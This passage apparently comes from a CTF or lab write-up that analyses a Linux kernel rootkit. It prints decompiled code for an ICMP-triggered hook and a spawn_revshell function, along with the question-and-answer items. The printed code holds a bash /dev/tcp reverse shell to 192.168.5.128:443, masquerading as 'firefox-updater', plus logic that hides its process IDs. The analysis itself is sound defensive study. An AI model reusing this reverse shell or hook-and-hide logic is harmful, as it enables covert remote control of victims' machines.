      if ( v8 != nullptr
        && (unsigned int)in4_pton(a1: "192.168.5.128", a2: 0xFFFFFFFFLL, a3: &trigger_ip, a4: 0xFFFFFFFFLL, a5: 0) != 0
        && *((_DWORD *)v6 + 3) == trigger_ip
        && *v8 == 8
        && *((_WORD *)v8 + 3) == 0xCF07 )
      {
        v9 = (_QWORD *)_kmalloc_cache_noprof(a1: kmalloc_caches[5], a2: 2080, a3: 32);
        if ( v9 != nullptr )
        {
          v9[3] = spawn_revshell;
          v10 = system_wq;
          *v9 = 0xFFFFFFFE00000LL;
          v9[1] = v9 + 1;
          v9[2] = v9 + 1;
          queue_work_on(a1: 0x2000, a2: v10);
        }
      }
    }
  }
  return orig_icmp_rcv(a1: skb);
}
```

The value appears in IDA as 0xCF07, but ICMP header fields are stored in network byte order (big-endian), we first perform a 16-bit byte swap:

```text
0xCF07  →  Byte Swap  →  0x07CF
```

Converting the resulting hexadecimal value to decimal:

```text
0x07CF  →  Decimal  →  1999
```

This value is used as one of the conditions required to trigger spawn_revshell().


**Disassembly View:**


---
Qs14. When the trigger conditions are met, what is the name of the function queued to execute the reverse shell?

**Answer:**

```text
spawn_revshell
```

**Findings:** 

Once the ICMP trigger conditions are satisfied, the hook creates a work item and assigns spawn_revshell as its callback before queuing it for execution.

**Decompiled Pseudocode:**

```text
int __fastcall hook_icmp_rcv(sk_buff *skb)
{
  unsigned __int8 *head; // rdx
  __int64 network_header; // rax
  bool v4; // zf
  unsigned __int8 *v5; // rax
  unsigned __int8 *v6; // rbp
  unsigned __int8 *v8; // r12
  _QWORD *v9; // rax
  __int64 v10; // rsi
  u32 trigger_ip; // [rsp+4h] [rbp-24h] BYREF
  unsigned __int64 v12; // [rsp+8h] [rbp-20h]

  v12 = __readgsqword(0x28u);
  trigger_ip = 0;
  if ( skb != nullptr )
  {
    head = skb->head;
    network_header = skb->network_header;
    v4 = &head[network_header] == nullptr;
    v5 = &head[network_header];
    v6 = v5;
    if ( !v4 && v5[9] == 1 )
    {
      v8 = &head[skb->transport_header];
      if ( v8 != nullptr
        && (unsigned int)in4_pton(a1: "192.168.5.128", a2: 0xFFFFFFFFLL, a3: &trigger_ip, a4: 0xFFFFFFFFLL, a5: 0) != 0
        && *((_DWORD *)v6 + 3) == trigger_ip
        && *v8 == 8
        && *((_WORD *)v8 + 3) == 0xCF07 )
      {
        v9 = (_QWORD *)_kmalloc_cache_noprof(a1: kmalloc_caches[5], a2: 2080, a3: 32);
        if ( v9 != nullptr )
        {
          v9[3] = spawn_revshell;
          v10 = system_wq;
          *v9 = 0xFFFFFFFE00000LL;
          v9[1] = v9 + 1;
          v9[2] = v9 + 1;
          queue_work_on(a1: 0x2000, a2: v10);
        }
      }
    }
  }
  return orig_icmp_rcv(a1: skb);
}
```

The assignment of spawn_revshell to the work item's callback identifies the function responsible for executing the reverse-shell logic.

**Disassembly View:**


---
Qs15. The spawn_revshell function launches a process. What is the hardcoded process name it uses for the reverse shell?

**Answer:**

```text
firefox-updater
```

**Findings:**

The spawn_revshell() function constructs the reverse-shell command using snprintf(). The hardcoded string "firefox-updater" is passed to the %s placeholder used by exec -a, which sets the process name exposed through argv[0].

**Decompiled Pseudocode:**

```text
void __fastcall spawn_revshell(work_struct *work)
{
  __int64 v2; // rdx
  __int64 v3; // rdi
  __int64 v4; // rsi
  __int64 v5; // rax
  int v6; // ebp
  int v7; // eax
  __int64 v8; // rax
  __int64 v9; // rdx
  __int64 v10; // rdi
  __int64 v11; // rsi
  __int64 v12; // rbx
  __int64 i; // r14
  int v14; // r12d
  _QWORD argv[5]; // [rsp+0h] [rbp-360h] BYREF
  char cmd[768]; // [rsp+28h] [rbp-338h] BYREF
  unsigned __int64 v17; // [rsp+328h] [rbp-38h]

  v17 = __readgsqword(0x28u);
  argv[0] = "/usr/bin/setsid";
  argv[1] = "/bin/bash";
  argv[2] = "-c";
  argv[4] = 0;
  memset(cmd, 0, sizeof(cmd));
  snprintf(
    s: cmd,
    maxlen: 0x300u,
    format: "bash -c 'PID=$$; kill -59 $PID; exec -a \"%s\" /bin/bash &>/dev/tcp/%s/%s 0>&1' &",
    "firefox-updater",
    "192.168.5.128",
    "443");
  argv[3] = cmd;
  _rcu_read_lock();
  v5 = init_task[278];
  if ( (_QWORD *)v5 == &init_task[278] )
  {
    v6 = 0;
  }
  else
  {
    v2 = v5 - 2224;
    v6 = 0;
    do
    {
      v7 = *(_DWORD *)(v5 + 208);
      if ( v6 < v7 )
        v6 = v7;
      v5 = *(_QWORD *)(v2 + 2224);
      v2 = v5 - 2224;
    }
    while ( (_QWORD *)v5 != &init_task[278] );
  }
  _rcu_read_unlock(a1: v3, a2: v4, a3: v2);
  v8 = call_usermodehelper_setup(a1: argv[0], a2: argv, a3: envp_0, a4: 3264, a5: 0, a6: 0, a7: 0);
  if ( v8 != 0 )
    call_usermodehelper_exec(a1: v8, a2: 2);
  msleep(a1: 1500);
  _rcu_read_lock();
  v12 = init_task[278];
  for ( i = v12 - 2224; (_QWORD *)v12 != &init_task[278]; i = v12 - 2224 )
  {
    v14 = *(_DWORD *)(v12 + 208);
    if ( v14 > v6
      && *(_QWORD *)(v12 + 80) != 0
      && (strstr(haystack: (const char *)(v12 + 752), needle: "firefox-updater") != nullptr
       || strstr(haystack: (const char *)(v12 + 752), needle: "setsid") != nullptr) )
    {
      add_hidden_pid(pid: v14);
      add_hidden_pid(pid: *(_DWORD *)(v12 + 212));
    }
    v12 = *(_QWORD *)(i + 2224);
  }
  _rcu_read_unlock(a1: v10, a2: v11, a3: v9);
  kfree(a1: work);
}
```

The function later searches for the same string when identifying the spawned process:

```text
strstr(..., "firefox-updater")
```

**Disassembly View:**


---


